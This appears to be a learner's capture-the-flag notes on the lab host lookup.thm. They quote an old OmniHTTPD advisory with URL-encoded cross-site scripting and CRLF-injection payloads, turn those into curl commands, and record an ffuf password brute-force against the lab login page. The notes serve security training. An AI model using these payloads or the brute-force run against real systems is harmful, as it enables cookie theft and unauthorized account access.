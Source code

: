 A HTML injection vulnerability has been reported in the '/cgi-bin/redir.exe' sample CGI included with OmniHTTPD. Reportedly, it is possible for an attacker to URL encode the newline character (%0D) and insert malicious HTML code. A vulnerable server receiving a malformed request will return a 302 redirect HTTP response containing the malicious attacker-supplied code.

http://localhost/cgi-bin/redir.exe?URL=http%3A%2F%2Fwww%2Eyahoo%2Ecom%2F%0D%0A%0D%0A%3CSCRIPT%3Ealert%28document%2EURL%29%3C%2FSCRIPT%3E

curl -L "http://lookup.thm/cgi-bin/redir.exe?URL=http%3A%2F%2Fwww%2Eyahoo%2Ecom%2F%0D%0A%0D%0A%3C
SCRIPT%3Ealert%28document%2EURL%29%3C%2FSCRIPT%3E"

http://localhost/cgi-bin/redir.exe?URL=http://www.yahoo.com/

curl -L "http://lookup.thm/cgi-bin/redir.exe?URL=http://www.yahoo.com/"

<SCRIPT>alert(document.URL)</SCRIPT>

# cat 21754.txt

source: https://www.securityfocus.com/bid/5568/info

Cross site scripting vulnerabilities have been reported in multiple sample scripts including with OmniHTTPD. In particular, test.shtml and test.php contain errors.

This type of vulnerability may be used to steal cookies or perform other web-based attacks.

http://localhost/test.shtml?%3CSCRIPT%3Ealert(document.URL)%3C%2FSCRIPT%3E=x
curl -L "http://lookup.thm/test.shtml?%3CSCRIPT%3Ealert(document.URL)%3C%2FSCRIPT%3E=x"

# ffuf

ffuf -w xato-net-10-million-passwords-10000.txt -X POST -u http://lookup.thm/login.php -d 'userna
me=FUZZ&password=asdf' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fs 74

- fw 10 : 응답 본문의 단어 수가 10이면 핕터링
- fs 74 : 응답 사이즈가 74는 필터링

┌──(root㉿codespaces-d5df79)-[/usr/share/seclists/Passwords/Common-Credentials]
└─# ffuf -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=a' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -w 10-million-password-list-top-100000.txt -fs 74 -of /ffuf-passwd.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev

---

:: Method : POST
:: URL : http://lookup.thm/login.php
:: Wordlist : FUZZ: /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt
:: Header : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
:: Data : username=FUZZ&password=a
:: Output file : /ffuf-passwd.txt
:: File format : json
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 74

---